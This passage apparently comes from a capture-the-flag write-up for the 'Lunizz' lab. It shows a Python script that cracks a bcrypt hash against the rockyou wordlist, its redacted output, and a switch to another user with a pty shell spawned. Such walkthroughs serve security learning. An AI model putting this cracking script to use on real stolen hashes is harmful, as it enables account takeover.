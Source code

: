 **For example, with input password abc123xyz, cost 12, and a random salt, the output of bcrypt is the string:**
```
$2a$12$R9h/cIPz0gi.URNNX3kh2OPST9/PgBkqquzi.Ss7KIUgO2t0jWMUW
\__/\/ \____________________/\_____________________________/
Alg Cost      Salt                        Hash
```

Armed with this information, we know that adam's bcrypt hash is `$2b$12${Redacted}`!

```py
#!/usr/bin/env python3

import bcrypt
import base64

salt = b'your_bcrypt_salt'
bcrypt_hash = b'complete_bcrypt_hash'

with open('/usr/share/wordlists/rockyou.txt', 'r', encoding='latin-1') as f:
	for word in f.readlines():
		passw = word.strip().encode('ascii', 'ignore')
		b64str = base64.b64encode(passw)
		hashAndSalt = bcrypt.hashpw(b64str, salt)
		print('\r', end='') # Clear previous line
		print(f'[*] Cracking hash: {hashAndSalt}', end='')

		if bcrypt_hash == hashAndSalt:
			print('\n[+] Cracked!')
			print(f'[+] Before hashed: {passw}')
			print(f'[+] After hashed: {hashAndSalt}')
			exit()
```

**Output:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# python3 crack_bcrypt.py
[*] Cracking hash: b'$2b$12${Redacted}'
[+] Cracked!
[+] Before hashed: b'{Redacted}'
[+] After hashed: b'$2b$12${Redacted}'
```

Successfully cracked adam's bcrypt hash!!

**Armed with this password, we can finally Switch User to `adam`!!**
```
www-data@lunizz:/var/www/html/whatever$ su adam
Password: 

$ python3 -c "import pty;pty.spawn('/bin/bash')"
adam@lunizz:/var/www/html/whatever$ whoami;hostname;id;ip a
adam
lunizz
uid=1000(adam) gid=1000(adam) groups=1000(adam)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:25:e4:9d:4e:89 brd ff:ff:ff:ff:ff:ff
    inet 10.10.60.160/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3528sec preferred_lft 3528sec
    inet6 fe80::25:e4ff:fe9d:4e89/64 scope link 
       valid_lft forever preferred_lft forever
```
